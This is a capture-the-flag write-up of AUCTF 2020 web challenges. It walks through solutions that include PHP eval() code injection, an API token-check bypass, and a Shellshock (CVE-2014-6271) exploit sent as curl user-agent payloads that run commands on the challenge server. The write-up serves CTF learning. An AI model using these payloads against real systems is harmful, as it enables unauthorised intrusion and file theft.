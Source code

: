 # AUCTF 2020 Web Writeups

## Miyazaki Trivia
The site says "Find this special file", if we navigate to the site's _robots.txt_ we find a trivia page.
We are told to make a post request with a particular header that answers a trivia question. When we do
some Googling or if we play the game Bloodborne we can find that the adage is "Fear the Old Blood". We
are able to submit our answers with the following `curl` command:

`curl -XPOST -H "answer:fear the old blood" http://challenges.auctf.com:30020/robots.txt`


## Quick Maths
We are presented with a calculator web app and nothing else. The chrome extension _Wappalyzer_ allows
us to see that the site is built using PHP. We can test the calculator for funtionality by inputting
some mathmetic expressions like `1+1` and `2**3`. Seeing that the calculator does compute the expressions,
we can input some bad math like `2 / 0` to see how the calculator responds. The calculator leaks the
function name that was doing computations:
```
Warning: Division by zero in /var/www/html/index.php(5) : eval()'d code on line 1
INF
```
Now that we know the page is running `eval()` we can attempt some php code injection. We can try leaking
defined variables with `get_defined_vars()`. It returns Array, so we know that we have code execution. We
can expand upon this with printing defined vars with `print_r(get_defined_vars())`. This leaks our flag.

'
## gg no re
After navigating to the site, we are told that there is nothing to see there, but if we view the page's
source, we can see that the page has a javascript page that is loaded in. We can navigate to and inspect
this javascript page. We find a highly obfuscated script, but if we put the base64 decode the long string
at the very beginning, we are able to see that we may not have to do much more. We navigate to the page
that we are told to go to, and we are presented with "Howdy Neighbor". If we look into the cookies and headers
that are sent in the HTTP response we get an encoded string. We decode that string and we are told to go to
`/api/final.php` and make a POST request. Navigating to the page, we are told to set a variable called flag.

`curl -XPOST -d "flag=flag" http://challenges.auctf.com:30022/api/final.php`

## API madness
There are 2 possible solutions to this challenge. Navigating to the index page greets us with JSON telling
us that there is a help page for the API. Looking at this page, we can see that we have a few endpoints for
potentially a FTP server. From these docs we know that we have to make requests to the server using the POST
method.

### Solution 1
We see that there are some backend ftp endpoints. We can try to authenticate into the server using the login
endpoint `/api/login` with `curl -XPOST -H 'Content-type: application/json' -d '{"username":"username", "password":"password"}' http://challenges.auctf.com:30023/api/login`.
The login endpoint hangs, but if we wait on it, it will crash and print a stack trace. If we look into the stack trace,
we can see that there is an endpoint called `/api/login_check`. If we try authing again, but against this endpoint,
we try again, and we receive a token. We can use this token to access some of the backend endpoints for `/api/ftp/`.
`curl -XPOST -H 'Content-type: application/json' -d '{"token":"token_hash", "dir":"."}' http://challenges.auctf.com:30023/api/ftp/dir`
We can see a flag.txt in this directory listing, so we can use the `/api/ftp/get_file` endpoint to possibly print
the file. `curl -XPOST -H 'Content-type: application/json' -d '{"token":"token_hash", "file":"flag.txt"}' http://challenges.auctf.com:30023/api/ftp/get_file`

### Solution 2
We can test the backend endpoints for auth bypass, which allows us to skip the most stressful portion of Solution 1.
We can deduce that the api will speak in JSON from the index page being a JSON dump. JSON APIs usually authenticate
with JWT, so we will try accessing the backend without a token. `curl -XPOST -H 'Content-type: application/json' -d '{"dir":"."}' http://challenges.auctf.com:30023/api/ftp/dir`
It responds with a `403 Forbidden` error likely due to it expecting a token. If we try giving it a bogus token to determine
if it is actually checking token. `curl -XPOST -H 'Content-type: application/json' -d '{"token":"blah","dir":"."}' http://challenges.auctf.com:30023/api/ftp/dir`.
This is great, now we can see that the tokens are not checked. We also can see that there is a flag  file in this directory.
We can try retrieving it with `curl -XPOST -H 'Content-type: application/json' -d '{"token":"random","file":"flag.txt"}' http://challenges.auctf.com:30023/api/ftp/get_file`

## M1 Abrams
We are presented with a default Apache web server. Running `dirb` on this URL prints 2 directories that have `403` errors.
If we run `dirb` on these directories we can find that there is a http://challenges.auctf.com:30024/cgi-bin/scriptlet page.
Navigating to the page shows us what seems to be the output of the `id` command. We can try exploiting Shellshock, CVE-2014-6271.
`curl -A '() { :; };echo;echo;echo;/bin/sleep 3 http://challenges.auctf.com:30024/cgi-bin/scriptlet`. This is will make the
server sleep for 3 seconds before it returns. This means that we have code injection. `curl -A '() { :; };echo;echo;echo;/bin/ls /' http://challenges.auctf.com:30024/cgi-bin/scriptlet`
This prints us the `/` directory where we can see that there is a file named `flag.file`. We can cat this file and solve it. The file
is a hexdump of something, and if we look at the ascii of the hexdump, there seems to be a `flag.txt` string within it. Reversing
the hexdump gives a G-Zip compressed file, which we can decompress for the flag.
```bash
curl -A '() { :; };echo;echo;echo;/bin/cat /flag.file' http://challenges.auctf.com:30024/cgi-bin/scriptlet > test.tmp
cat test.tmp
xxd -r -p test.tmp > temp
file temp
mv temp temp.gz
guzip temp.gz
cat temp
```